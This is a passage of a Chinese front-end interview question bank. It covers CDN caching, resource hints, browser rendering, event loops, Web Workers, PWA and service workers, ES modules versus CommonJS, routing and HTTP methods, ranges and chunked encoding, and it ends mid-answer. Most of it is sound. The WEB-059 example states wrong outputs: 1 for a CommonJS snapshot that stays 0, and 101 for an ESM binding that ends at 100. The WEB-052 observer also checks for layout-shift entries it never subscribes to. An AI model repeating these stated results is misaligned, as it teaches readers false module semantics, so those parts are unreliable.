- CDN 把静态资源分发到离用户最近的边缘节点；DNS 智能调度（CNAME 到 CDN 调度系统）把用户解析到最优节点。
- 边缘节点有缓存直接返回（命中率是核心指标）；未命中回源站拉取并缓存（回源），大量并发未命中会造成"缓存击穿"，可用请求合并/预热缓解。
- 缓存更新靠 URL 版本化（hash 文件名）主动刷新，或调 CDN 刷新接口；回源请求一般带 `Via`/`X-Cache` 头可观测。
- 动静分离：HTML/接口不进 CDN 或短 TTL，图片/JS/CSS 长缓存 + hash。

```bash
# 观察 CDN 命中情况：X-Cache 头显示 HIT/MISS，Via 显示经过的节点
curl -sI https://cdn.example.com/static/app.js | grep -Ei 'x-cache|via|age|cache-control'
# X-Cache: HIT          命中边缘缓存
# X-Cache: MISS         未命中，触发回源
# Age: 120              缓存已存活 120 秒

# 查看域名是否 CNAME 到 CDN 调度
dig www.example.com +noall +answer | grep CNAME
```

```javascript
// 回源头与命中率的可观测性：服务端打印命中状态
app.use((req, res, next) => {
  const originalEnd = res.end.bind(res);
  res.end = (...args) => {
    const xCache = res.getHeader('x-cache'); // 经 CDN 转发后可读到 HIT/MISS
    if (xCache === 'MISS') {
      console.warn(`cache miss, origin hit: ${req.url}`); // 监控回源率与击穿
    }
    originalEnd(...args);
  };
  next();
});
```

### WEB-047：dns-prefetch、preconnect、preload、prefetch 有什么区别？
**答**：
- `dns-prefetch`：提前做 DNS 解析，只省 DNS 时间；`preconnect`：DNS + TCP + TLS 一步到位，收益更大，只对关键第三方域用。
- `preload`：当前页面马上要用的关键资源（字体、首屏 CSS/JS），高优先级提前下载。
- `prefetch`：下一跳可能用的资源，空闲时低优先级下载。
- 滥用反而抢带宽，preconnect 一般控制在 2~4 个关键域。

```html
<!-- 资源提示完整示例 -->
<head>
  <!-- 1. DNS 预解析：低成本的域名预热 -->
  <link rel="dns-prefetch" href="//cdn.example.com" />

  <!-- 2. 预连接：握手全做完，适合马上要请求的第三方域 -->
  <link rel="preconnect" href="https://cdn.example.com" crossorigin />
  <link rel="preconnect" href="https://api.example.com" />

  <!-- 3. preload：当前页关键资源，as 声明类型 -->
  <link rel="preload" href="/fonts/main.woff2" as="font" type="font/woff2" crossorigin />
  <link rel="preload" href="/static/app.css" as="style" />

  <!-- 4. prefetch：下一跳路由可能用到的资源，空闲时下载 -->
  <link rel="prefetch" href="/static/detail-page.js" as="script" />
</head>
```

## 九、浏览器渲染流程

### WEB-048：从输入 URL 到页面渲染，浏览器经历了哪些阶段？
**答**：
- 网络阶段：URL 解析与搜索判定 → DNS → TCP 握手 → TLS → 发送请求、接收响应（中间穿插缓存判断）。
- 渲染阶段：解析 HTML 构建 DOM；解析 CSS 构建 CSSOM；两者合成渲染树。
- 布局（Layout/重排）：计算每个节点的几何位置；绘制（Paint）：填充像素到图层；合成（Composite）：GPU 合成图层上屏。
- JS 会阻塞 DOM 解析（默认 script），CSS 阻塞渲染但不阻塞解析；defer/async 改变脚本执行时机。
- 面试要能画全流程，并指出各阶段的性能优化抓手。



### WEB-049：什么是重排和重绘？如何减少？
**答**：
- 重排（reflow）：几何属性（宽高、位置、字号）变化，重新计算布局，代价最大；重绘（repaint）：仅外观（颜色、阴影）变化，跳过布局；只动 `transform`/`opacity` 可只合成，不重排不重绘。
- 读写分离：连续读取 offsetTop/getBoundingClientRect 前如果刚写入样式，浏览器会强制同步重排（layout thrashing）。
- 优化手段：批量改样式（一次性换 class 或 cssText）、用 `transform` 替代 top/left 动画、`DocumentFragment`/离屏 DOM 批量插节点、复杂区域用 `content-visibility`。
- 只读布局值时注意缓存，别在循环里读。

```javascript
// 反例：读写交替导致强制同步布局（layout thrashing）
const items = document.querySelectorAll('.item');
items.forEach((el) => {
  const top = el.offsetTop; // 读：触发布局
  el.style.top = `${top + 10}px`; // 写：使布局失效，下次读又要重排
});

// 正例一：先集中读，再集中写
const tops = Array.from(items, (el) => el.offsetTop); // 批量读
requestAnimationFrame(() => {
  tops.forEach((t, i) => (items[i].style.top = `${t + 10}px`)); // 批量写
});

// 正例二：动画走 transform，跳过布局阶段，只做合成
// 注意不是 style.top，top 会触发重排
box.style.transform = 'translateY(10px)';

// 正例三：批量插入节点用 DocumentFragment
const frag = document.createDocumentFragment();
for (let i = 0; i < 1000; i++) {
  const div = document.createElement('div');
  div.textContent = `row ${i}`;
  frag.appendChild(div); // 先挂在内存片段上
}
document.body.appendChild(frag); // 只触发一次重排
```

### WEB-050：什么是合成层？为什么动画推荐用 transform 和 opacity？
**答**：
- 页面可拆成多个图层（layer），各自独立栅格化，最后 GPU 合成；`transform`、`opacity` 动画可在合成器线程完成，不占用主线程，不触发重排重绘。
- 提升成独立合成层的条件：3D transform、`will-change: transform/opacity`、`position: fixed`、video、canvas 等。
- 层爆炸：过多元素提升为层会占大量显存，反而掉帧；用 `will-change` 要有节制，动画结束后移除。
- 验证方式：DevTools Layers 面板查看图层与绘制成本。

```css
/* 动画性能三件套：transform 动画 + will-change 适度使用 */
.card {
  transition: transform 0.3s ease, opacity 0.3s ease;
}
.card:hover {
  transform: translate3d(0, -4px, 0); /* 3d transform 提升合成层，动画不掉帧 */
  opacity: 0.9;
}

/* 长列表滚动容器：提示浏览器提前分层的思路，但要节制 */
.scroller {
  will-change: scroll-position;
}

/* 反例：改 width/height/margin/left 都是布局属性，动画全程重排 */
@keyframes bad-move {
  from { left: 0; }   /* 每帧重排 + 重绘 */
  to   { left: 100px; }
}
@keyframes good-move {
  from { transform: translateX(0); }  /* 每帧仅合成 */
  to   { transform: translateX(100px); }
}
```

### WEB-051：CSS 和 JS 分别如何阻塞渲染？defer 和 async 怎么选？
**答**：
- CSS 不阻塞 DOM 解析但阻塞渲染（渲染树要等 CSSOM），还会阻塞其后 JS 的执行（JS 可能读样式）。
- 默认 `<script>` 下载和执行都阻塞 HTML 解析；`async` 下载不阻塞、下载完立即执行（顺序不保证，适合独立脚本如埋点）；`defer` 下载不阻塞、DOM 解析完后按序执行（适合依赖 DOM 和彼此顺序的业务脚本）。
- 关键 CSS 内联首屏样式，其余异步加载；module script 默认行为类似 defer。

```html
<head>
  <!-- 同步 script：下载+执行都阻塞解析，放这里会拖慢首屏 -->
  <!-- <script src="/analytics.js"></script> -->

  <!-- async：下载不阻塞，下载完立即执行，执行顺序不确定，适合独立脚本 -->
  <script async src="/analytics.js"></script>

  <!-- defer：下载不阻塞，DOMContentLoaded 前按序执行，适合业务脚本 -->
  <script defer src="/vendor.js"></script>
  <script defer src="/app.js"></script>
  <!-- 保证 vendor.js 先于 app.js 执行 -->

  <!-- module 默认 defer 语义 -->
  <script type="module" src="/main.js"></script>

  <!-- 首屏关键 CSS 内联，非关键 CSS 异步加载 -->
  <style>/* 首屏关键样式 */ header{display:flex}</style>
  <link rel="preload" href="/non-critical.css" as="style" onload="this.rel='stylesheet'" />
</head>
```

### WEB-052：首屏性能优化有哪些系统性手段？
**答**：
- 网络层：HTTP/2/3、CDN、preconnect/preload、gzip/br 压缩、图片用 WebP/AVIF + 合适尺寸。
- 渲染层：关键 CSS 内联、JS defer/async、首屏懒加载非关键组件、骨架屏提升体感。
- 资源层：路由级代码分割、Tree Shaking、按需引入组件库、遗留浏览器按需 polyfill。
- 指标驱动：以 LCP/INP/CLS 为目标，用 Lighthouse 与 RUM 数据持续回归，而不是拍脑袋优化。

```javascript
// 用 PerformanceObserver 采集核心 Web 指标，驱动优化
new PerformanceObserver((list) => {
  const entries = list.getEntries();
  entries.forEach((entry) => {
    if (entry.entryType === 'largest-contentful-paint') {
      report('LCP', entry.startTime); // 首屏最大元素渲染时间
    }
    if (entry.entryType === 'layout-shift' && !entry.hadRecentInput) {
      report('CLS累计偏移', entry.value);
    }
  });
}).observe({ type: 'largest-contentful-paint', buffered: true });

new PerformanceObserver((list) => {
  for (const entry of list.getEntries()) {
    if (entry.name === 'first-contentful-paint') report('FCP', entry.startTime);
  }
}).observe({ type: 'paint', buffered: true });

function report(name, value) {
  navigator.sendBeacon('/metrics', JSON.stringify({ name, value: Math.round(value) }));
}

// React 场景的路由级代码分割：首屏只加载当前路由
// const Detail = React.lazy(() => import('./pages/Detail'));
```

## 十、事件循环

### WEB-053：浏览器事件循环中宏任务和微任务的执行顺序？
**答**：
- 每轮事件循环：执行完当前宏任务（script、setTimeout、setInterval、I/O、UI 事件）后，立即清空整个微任务队列（Promise.then/catch/finally、queueMicrotask、MutationObserver），再进行渲染判断，然后取下一个宏任务。
- 关键点：微任务执行中产生的新微任务也会在本轮清空，微任务永远插队到下一个宏任务之前。
- 推论：微任务过多会饿死渲染；setTimeout(fn, 0) 至少等到下一轮宏任务。
- 面试必考：能口算一段混排代码的输出顺序。

```javascript
// 经典执行顺序题：先说结论再运行验证
console.log('1 script start'); // 同步：脚本本身是第一个宏任务

setTimeout(() => console.log('2 timeout'), 0); // 宏任务

Promise.resolve()
  .then(() => {
    console.log('3 promise1'); // 微任务
  })
  .then(() => console.log('4 promise2')); // 前一个 then 执行后追加的微任务，仍在同一轮清空

queueMicrotask(() => console.log('5 microtask')); // 微任务

console.log('6 script end'); // 同步

// 输出顺序：1 script start -> 6 script end
//          （同步结束，清空微任务）-> 3 promise1 -> 5 microtask -> 4 promise2
//          （微任务清空，取下一个宏任务）-> 2 timeout
```

### WEB-054：Node.js 的事件循环和浏览器有什么不同？
**答**：
- Node 事件循环分阶段：timers → pending → poll → check（setImmediate）→ close，微任务在每个阶段切换间清空。
- Node 有自己的微任务：`process.nextTick` 优先级最高，先于 Promise 微任务执行；浏览器没有 nextTick。
- setTimeout(fn, 0) 与 setImmediate 的顺序：主模块中不定，但在 I/O 回调里 setImmediate 恒先于 setTimeout。
- 浏览器每轮宏任务后有渲染时机，Node 没有 UI 渲染概念。

```javascript
// Node.js 环境运行：体会 nextTick 与 Promise 微任务的优先级
console.log('1 start');

process.nextTick(() => console.log('2 nextTick'));
Promise.resolve().then(() => console.log('3 promise'));
setTimeout(() => console.log('4 timeout'), 0);
setImmediate(() => console.log('5 immediate'));

console.log('6 end');
// Node 输出：1 start -> 6 end -> 2 nextTick -> 3 promise -> 4 timeout 或 5 immediate（顺序不定）

// I/O 回调内：setImmediate 稳定先于 setTimeout
const fs = require('fs');
fs.readFile(__filename, () => {
  setTimeout(() => console.log('timeout'), 0);
  setImmediate(() => console.log('immediate'));
  // 稳定输出 immediate -> timeout
});
```

### WEB-055：requestAnimationFrame 和 setTimeout 做动画有什么区别？
**答**：
- rAF 回调在浏览器下次重绘前执行，与显示器刷新率同步（60Hz 即每 16.7ms 一次），不重绘不浪费；标签页后台自动暂停，省电。
- setTimeout 间隔与刷新率无关，容易掉帧、抖动，且后台标签页被节流到 1s 以上。
- 计算下一帧动画状态时以时间为基准（delta time），帧率不同步时动画速度一致。
- rAF 回调属于渲染前步骤，其后紧跟样式计算、布局与绘制；rAF 里再塞大量 JS 同样会掉帧。

```javascript
// 用 rAF + delta time 实现帧率无关的动画
function animate(el, from, to, duration) {
  const start = performance.now();
  function frame(now) {
    const elapsed = now - start;
    const progress = Math.min(elapsed / duration, 1); // 0 -> 1
    const eased = 1 - Math.pow(1 - progress, 3); // easeOutCubic
    const x = from + (to - from) * eased;
    el.style.transform = `translateX(${x}px)`; // 只动 transform，纯合成
    if (progress < 1) requestAnimationFrame(frame); // 与刷新率同步的下一帧
  }
  requestAnimationFrame(frame);
}
animate(document.querySelector('.box'), 0, 300, 600);

// 对比：setTimeout 链在 60Hz 屏上间隔对不齐 16.7ms，且后台被节流
function badAnimate(el, x) {
  setTimeout(() => {
    x += 5;
    el.style.transform = `translateX(${x}px)`;
    if (x < 300) badAnimate(el, x); // 帧间隔不稳定，动画卡顿
  }, 16);
}
```

## 十一、Web Workers、PWA、模块化与前端路由

### WEB-056：Web Worker 是什么？哪些场景适合用？
**答**：
- Worker 在独立线程执行 JS，与主线程通过 postMessage 传递消息（结构化克隆），不阻塞 UI。
- 适用：大 JSON 解析、图片/视频处理、复杂计算、WebAssembly 配合的重负载。
- 限制：无 DOM/window 访问，不能直接操作页面；与主线程通信有序列化开销，超大对象可用 Transferable（ArrayBuffer 转移所有权）零拷贝传递。
- 类型：Dedicated Worker（专属）、Shared Worker（多标签共享）、Service Worker（代理网络与离线）。

```javascript
// main.js：主线程把重计算交给 Worker，UI 不卡顿
const worker = new Worker(new URL('./fib.worker.js', import.meta.url)); // Vite/webpack 都支持

worker.postMessage({ n: 40 });
worker.addEventListener('message', (e) => {
  console.log('worker result:', e.data); // 计算期间页面可以正常响应点击
});
worker.addEventListener('error', (e) => console.error(e.message));

// Transferable 示例：转移 ArrayBuffer 所有权，零拷贝
const buffer = new ArrayBuffer(1024 * 1024); // 1MB
worker.postMessage({ buffer }, [buffer]); // 转移后主线程不能再读 buffer
console.log(buffer.byteLength); // 0，所有权已移交
```

```javascript
// fib.worker.js：worker 文件里没有 DOM，只有消息通道
self.addEventListener('message', (e) => {
  const { n } = e.data;

  function fib(k) {
    let [a, b] = [0, 1];
    for (let i = 0; i < k; i++) [a, b] = [b, a + b];
    return a;
  }

  const result = fib(n);
  self.postMessage(result); // 回传主线程
});
```

### WEB-057：PWA 由哪几部分组成？manifest 常配哪些字段？
**答**：
- 三大件：Web App Manifest（安装与图标）、Service Worker（离线与请求代理）、HTTPS（安全前提）。
- manifest 关键字段：`name/short_name`、`start_url`、`display: standalone`、`theme_color/background_color`、`icons`（含 192/512 尺寸）。
- 配合 SW 的缓存策略可达到可安装、离线可用、类原生体验；更新靠 SW 版本化与 skipWaiting 流程。
- 加分项：说清 PWA 与小程序/原生 App 的取舍（触达快、能力受限、分发不依赖商店）。

```html
<!-- index.html：引入 manifest 与主题色 -->
<link rel="manifest" href="/manifest.json" />
<meta name="theme-color" content="#3367d6" />
<link rel="apple-touch-icon" href="/icons/icon-192.png" />
```

```json
{
  "name": "Fe Interview PWA",
  "short_name": "FeQuiz",
  "start_url": "/?source=pwa",
  "display": "standalone",
  "background_color": "#ffffff",
  "theme_color": "#3367d6",
  "icons": [
    { "src": "/icons/icon-192.png", "sizes": "192x192", "type": "image/png" },
    { "src": "/icons/icon-512.png", "sizes": "512x512", "type": "image/png" }
  ]
}
```

### WEB-058：描述 Service Worker 的生命周期与更新机制。
**答**：
- 生命周期：install（预缓存资源）→ waiting（等待旧 SW 控制的页面关闭）→ activate（清理旧缓存、接管作用域）。
- 更新：浏览器在页面加载/导航时重新拉取 sw.js，字节不同则安装新版本；新 SW 进入 waiting，默认等所有旧页面关闭才 activate。
- 用 `skipWaiting()` 让新 SW 立即接管，配 `clients.claim()` 控制已打开页面；配合前端提示"新版本可用，点击刷新"。
- 注意 sw.js 自身要禁强缓存（`Cache-Control: no-cache`），否则更新检测会延迟。



```javascript
// sw.js：版本化 + skipWaiting 的标准更新流程
const VERSION = 'v3';
const CACHE = `app-${VERSION}`;

self.addEventListener('install', (event) => {
  event.waitUntil(
    caches.open(CACHE).then((c) => c.addAll(['/index.html', '/app.js'])),
  );
  self.skipWaiting(); // 新版本立即接管，配合页面刷新提示
});

self.addEventListener('activate', (event) => {
  event.waitUntil(
    (async () => {
      const keys = await caches.keys();
      await Promise.all(keys.filter((k) => k !== CACHE).map((k) => caches.delete(k)));
      await self.clients.claim(); // 让未刷新的页面也立刻被新 SW 控制
    })()
  );
});
```

```javascript
// 页面侧：检测到新 SW 就提示用户刷新
let refreshing = false;
navigator.serviceWorker.addEventListener('controllerchange', () => {
  if (refreshing) return;
  refreshing = true;
  showUpdateToast(); // "新版本已就绪，点击刷新"
});

navigator.serviceWorker.register('/sw.js').then((reg) => {
  reg.addEventListener('updatefound', () => {
    const nw = reg.installing;
    nw?.addEventListener('statechange', () => {
      if (nw.state === 'installed' && navigator.serviceWorker.controller) {
        showUpdateToast(); // 有旧版本在控制页面时，installed 即代表等待中
      }
    });
  });
});
```

### WEB-059：ESModule 和 CommonJS 的核心区别？
**答**：
- 加载机制：ESM 是编译期静态分析，import/export 必须在顶层，可实现 Tree Shaking；CJS 是运行时加载 `module.exports` 对象，动态 require。
- 值语义：ESM 导出的是绑定引用（导出方修改后导入方可见），CJS 导出的是值的拷贝（基本类型拷贝后互不影响）。
- 运行环境：ESM 浏览器原生支持（`<script type="module">` 异步加载、严格模式、this 为 undefined）；CJS 是 Node 传统规范（同步 require、this 为 module.exports）。
- 互操作：Node 中 ESM 里 import CJS 能拿到 default 导出；CJS 里 require ESM 需要较新版本支持。工程上打包器都以 ESM 为准。

```javascript
// counter.cjs —— CommonJS：值的拷贝 + 动态加载
let count = 0;
setTimeout(() => { count = 100; }, 100); // 导出方稍后修改

module.exports = { count, inc: () => count++ };

// main.cjs
const counter = require('./counter.cjs'); // 同步、运行时加载
console.log(counter.count); // 0（加载时快照）
counter.inc();
setTimeout(() => {
  console.log(counter.count); // 1：外部拿到的 count 是拷贝，看不到内部变成 100
}, 200);
```

```javascript
// counter.mjs —— ESModule：绑定引用
export let count = 0;
setTimeout(() => { count = 100; }, 100); // 修改会实时反映到所有导入方
export const inc = () => count++;

// main.mjs
import { count, inc } from './counter.mjs'; // 静态分析、编译期确定依赖
console.log(count); // 0
inc();
setTimeout(() => {
  console.log(count); // 101：count 是对导出绑定的只读引用，实时同步
}, 200);

// 静态结构让打包器可以做 Tree Shaking：未导入的导出会被移除
// import { count } from './counter.mjs'; // inc 未使用，打包后不进产物
```

### WEB-060：前端路由的 history 模式和 hash 模式有什么区别？
**答**：
- hash 模式：URL 形如 `/#/detail`，改变 hash 不发请求，靠 `hashchange` 事件监听；实现简单、部署无需服务端配置，但 URL 带 # 不美观，锚点功能被占用。
- history 模式：`pushState/replaceState` 改变路径不刷新页面，`popstate` 监听前进后退（pushState 本身不触发 popstate）；URL 与后端路径一致，需要服务端把所有路径 fallback 到 index.html，否则刷新 404。
- SEO 与规范上 history 更优；现代框架路由默认 history。
- 两者的路由变化都不会重新请求页面，本质都是浏览器端的状态切换。

```javascript
// 最小 hash 路由实现
class HashRouter {
  constructor() {
    this.routes = {};
    window.addEventListener('hashchange', () => this.render());
  }
  register(path, view) {
    this.routes[path] = view;
  }
  push(path) {
    location.hash = path; // 改 hash，触发 hashchange，不发请求
  }
  render() {
    const path = location.hash.slice(1) || '/';
    document.getElementById('app').innerHTML = this.routes[path] || '404';
  }
}

const router = new HashRouter();
router.register('/', '<h2>首页</h2>');
router.register('/detail', '<h2>详情页</h2>');
router.render();
```

```javascript
// 最小 history 路由实现
class HistoryRouter {
  constructor() {
    // popstate 只在浏览器前进后退时触发，pushState/replaceState 不会触发它
    window.addEventListener('popstate', () => this.render());
  }
  push(path) {
    history.pushState({ path }, '', path); // 改路径不刷新页面、不发请求
    this.render(); // 编程式跳转需要手动渲染
  }
  render() {
    const path = location.pathname;
    document.getElementById('app').innerHTML =
      path === '/detail' ? '<h2>详情页</h2>' : '<h2>首页</h2>';
  }
}

const router = new HistoryRouter();
document.querySelector('a').addEventListener('click', (e) => {
  e.preventDefault(); // 拦截默认跳转，改用 pushState
  router.push(e.target.pathname);
});
```

```nginx
# history 模式的服务端配套：所有路径 fallback 到 index.html，否则刷新 404
server {
    location / {
        try_files $uri $uri/ /index.html;
    }
}
```

## 十二、HTTP 语义进阶

### WEB-061：HTTP 方法的幂等性与安全性如何划分？工程上有什么用？
**答**：
- 安全方法：GET、HEAD、OPTIONS，只读不改变服务器状态；幂等方法：GET、HEAD、OPTIONS、PUT、DELETE、TRACE，重复执行效果与一次相同。
- POST 既不安全也不幂等；PATCH 理论上幂等性未定义，取决于补丁语义（如"加 1"操作重复执行结果不同）。
- 工程意义：幂等方法可以安全重试——网络超时后重发 PUT/DELETE 不会造成重复副作用；支付下单等 POST 不能盲目重试，需要幂等键（Idempotency-Key）兜底。
- 浏览器与代理对幂等方法有预判：GET/HEAD 可被缓存、失败自动重连，POST 则不会。

```javascript
// 只有幂等方法才允许自动重试，这是网关和请求库的核心设计
async function requestWithRetry(url, options, maxRetry = 2) {
  const idempotent = ['GET', 'HEAD', 'OPTIONS', 'PUT', 'DELETE'].includes(options.method);
  for (let i = 0; ; i++) {
    try {
      return await fetch(url, options);
    } catch (err) {
      // 非幂等请求超时重试可能造成重复下单，必须直接抛出
      if (!idempotent || i >= maxRetry) throw err;
      await new Promise((r) => setTimeout(r, 2 ** i * 500)); // 指数退避
    }
  }
}
```

### WEB-062：PUT 和 PATCH 有什么区别？
**答**：
- PUT 是整体替换：客户端发送资源的完整表示，服务器用请求体整个覆盖目标资源；请求体不含的字段会被清掉，且必须幂等。
- PATCH 是部分更新：只携带变更的字段或补丁文档，服务器在原资源上应用补丁；重复执行是否幂等取决于补丁语义。
- 实践中多数 REST API 用 JSON 直接表达"部分字段"，严格语义可用 `application/json-patch+json` 或 `application/merge-patch+json`。
- 面试要点：PUT 的 Content-Type 是资源类型，PATCH 的 Content-Type 是"补丁类型"，两者语义层完全不同。

```javascript
// PUT：发送完整资源，未携带的 title 会被覆盖为空
await fetch('https://api.example.com/articles/42', {
  method: 'PUT',
  headers: { 'Content-Type': 'application/json' },
  body: JSON.stringify({ content: '全新正文' }), // title 字段将被置空
});

// PATCH：只发变更部分
await fetch('https://api.example.com/articles/42', {
  method: 'PATCH',
  headers: { 'Content-Type': 'application/merge-patch+json' },
  body: JSON.stringify({ content: '只改正文，其他字段保持不变' }),
});

// 严格 JSON Patch：一组操作指令，天然表达精确变更
await fetch('https://api.example.com/articles/42', {
  method: 'PATCH',
  headers: { 'Content-Type': 'application/json-patch+json' },
  body: JSON.stringify([
    { op: 'replace', path: '/title', value: '新标题' },
    { op: 'add', path: '/tags/-', value: 'http' },
  ]),
});
```

### WEB-063：Range 请求支持多段区间吗？响应报文长什么样？
**答**：
- 支持。`Range: bytes=0-1023, 4096-5119` 一次请求多个区间，服务器返回 `206 Partial Content`，Body 是 `multipart/byteranges` 多段结构。
- 每一段都有独立的 `Content-Type` 和 `Content-Range: bytes 起始-结束/总长`，段之间用 boundary 分隔。
- 典型场景：视频播放器同时拉取片头 moov box 和当前播放位置；下载器并行拉取多个分片。
- 服务器可以忽略多段请求返回完整 `200`，客户端必须兼容两种响应。

```http
GET /video.mp4 HTTP/1.1
Host: cdn.example.com
Range: bytes=0-1023, 4096-5119

HTTP/1.1 206 Partial Content
Content-Type: multipart/byteranges; boundary=FRONT3ND
Content-Length: 2312

--FRONT3ND
Content-Type: video/mp4
Content-Range: bytes 0-1023/1048576

（1024 字节二进制数据）
--FRONT3ND
Content-Type: video/mp4
Content-Range: bytes 4096-5119/1048576

（1024 字节二进制数据）
--FRONT3ND--
```

### WEB-064：断点续传中 206 和 416 分别出现在什么时机？
**答**：
- 客户端带 `Range: bytes=起点-` 请求，服务器成功返回 `206 Partial Content` 并带 `Content-Range: bytes 起点-结束/总长`，这就是续传的协议基础。
- 若请求的起点超出文件大小，服务器返回 `416 Range Not Satisfiable`，并用 `Content-Range: bytes */总长` 告知实际长度——客户端据此发现本地文件已完整或已失效，应重新下载。
- curl 的 `-C -` 会自动探测本地已有字节数并拼 Range 头，是断点续传的标准工具用法。
- 注意 ETag/Last-Modified 变化后旧断点无意义，规范要求配合 `If-Range` 校验资源是否被修改。

```bash
# 第一次下载到 100000 字节时中断
curl -o big.zip https://cdn.example.com/big.zip

# 续传：curl 自动读取本地已下载大小并附加 Range 头，服务器返回 206
curl -C - -o big.zip https://cdn.example.com/big.zip

# 模拟 416：起点超出文件总长，服务器用 Content-Range: bytes */总长 回应
curl -i -H 'Range: bytes=999999999-' https://cdn.example.com/big.zip

# If-Range 保证断点仍有效：资源没变才返回 206，变了返回完整 200
curl -i -H 'Range: bytes=100000-' -H 'If-Range: "etag-v1"' \
  https://cdn.example.com/big.zip
```

### WEB-065：Expect: 100-continue 头是干什么的？
**答**：
- 客户端要发送大体积请求体前，先带 `Expect: 100-continue` 询问服务器是否愿意接收，服务器回 `100 Continue` 后客户端才真正发送 Body。
- 价值：Body 未发出前就能被拒绝（如 401、413），避免白白上传几十 MB 后才收到 4xx，节省带宽。
- curl 对超过 1KB 的 POST 会自动启用该机制；服务器若不支持会在超时后才收 Body，个别老网关因此出兼容问题。
- 前端关联：fetch/XHR 不暴露 Expect 头，大文件上传的分片预检（OPTIONS/HEAD 探测）是应用层的等价方案。

```http
POST /upload HTTP/1.1
Host: api.example.com
Content-Type: video/mp4
Content-Length: 104857600
Expect: 100-continue

HTTP/1.1 100 Continue

（客户端此刻才开始发送 100MB 的请求体）

HTTP/1.1 413 Payload Too Large
Content-Length: 0

（另一种结局：服务器一开始就拒绝，客户端一个字节都不用发）
```

### WEB-066：逐字段拆解一个 HTTP 请求报文，每部分的职责是什么？
**答**：
- 请求行：方法 + 请求目标 + 协议版本，决定"做什么、对谁做、用什么语义说话"。
- 请求头按职责分组：条件头（If-None-Match/If-Modified-Since）、内容协商头（Accept/Accept-Encoding）、连接头（Connection/Host）、安全头（Origin/Referer）。
- 空行（CRLF）是头部与 Body 的分界，解析器靠它判断头结束。
- Body 由 Content-Type 和 Content-Length/Transfer-Encoding 描述，可能完全为空（GET）。
- 面试时能现场默写一个完整请求并解释每个头的作用，是网络功底的直接证明。

```http
POST /api/login HTTP/1.1          # 请求行：方法 + 路径 + 版本
Host: api.example.com             # 唯一必须的 HTTP/1.1 头，虚拟主机路由依据
User-Agent: Mozilla/5.0 Chrome    # 客户端标识，UA 检测的来源（已不被信任）
Accept: application/json          # 内容协商：我要什么类型的响应
Accept-Encoding: gzip, br         # 我支持哪些压缩算法
Content-Type: application/json    # 请求体的媒体类型
Content-Length: 38                # 请求体字节数，接收方据此切分
Origin: https://www.example.com   # CORS 判定的来源站点
Cookie: session=abc123            # 自动携带的会话凭证
Connection: keep-alive            # 连接复用声明

{"username":"fe","password":"***"}  # 空行之后的请求体
```

### WEB-067：Transfer-Encoding: chunked 的编码格式是什么？和 Content-Length 什么关系？
**答**：
- 适合"边生成边发送"的场景：服务器无法预先算出总长度（如流式 LLM 输出、日志推送），就分块发送，每个块前有一个十六进制长度行。
- 格式：`块长度\r\n块数据\r\n` 循环，最后以 `0\r\n` 结束，可再跟 trailer 头，最终 `\r\n` 收尾。
